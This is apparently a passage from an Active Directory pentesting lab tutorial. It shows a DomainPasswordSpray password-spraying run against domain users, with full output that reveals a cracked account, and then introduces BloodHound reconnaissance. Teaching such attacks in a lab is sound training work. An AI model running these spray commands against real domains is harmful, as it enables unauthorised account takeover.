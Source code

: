 `Import-Module .\DomainPasswordSpray.ps1`

[DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) is a highly effective tool coded in PowerShell specifically designed to execute a password spray attack against users within a domain. By default, it can automatically generate a user list from the domain, but it also allows for a custom user list input, which we will utilize in our task.

 3. **Execution and Verification of the Password Spraying Attack.**
 
`Invoke-DomainPasswordSpray -UserList "$HOME\Desktop\domain_users.txt" -Password "123456" -Verbose`:
```
[*] Using C:\Users\student\Desktop\domain_users.txt as userlist to spray with
[!] Warning: Users will not be checked for lockout threshold.
[*] The domain password policy observation window is set to 30 minutes.
[*] Setting a 30 minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 6 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): Y ←
[*] Password spraying has begun with 1 passwords ←
[*] This might take a while depending on the total number of users
[*] Now trying password 123456 against 6 users. Current time is 1:49 PM ←
[*] Writing successes to
[*] 1 of 6 users tested
[*] 2 of 6 users tested
[*] 3 of 6 users tested
[*] 4 of 6 users tested
[*] 5 of 6 users tested
[+] SUCCESS! User:Johnny Password:123456 ←
[*] 6 of 6 users tested
[*] Password spraying is complete
```

The command above initiates the password spraying attack. `-UserList .\users.txt` specifies our custom list of user accounts and `-Password "123456"` denotes the password to test on each account. The `-Verbose` flag is used to provide detailed output during the process.

Password spraying attacks can often trigger account lockouts if too many attempts are made in a short period. Therefore, tools like DomainPasswordSpray are designed to automatically pause after a specific number of attempts to avoid triggering account lockouts.

### BloodHound - Theory

<u>Active Directory (AD) reconnaissance</u> is crucial for assessing AD security. It involves <u>gathering information</u> to identify potential vulnerabilities and weaknesses. BloodHound is a powerful tool for this purpose.

**BloodHound** is a JavaScript web application that <u>employs graph theory to uncover hidden relationships in an AD or Azure environment</u>.
Attackers can identify complex attack paths, while defenders can find and mitigate these paths. BloodHound helps both blue and red teams understand privilege relationships in AD or Azure.

#### Lab Environment
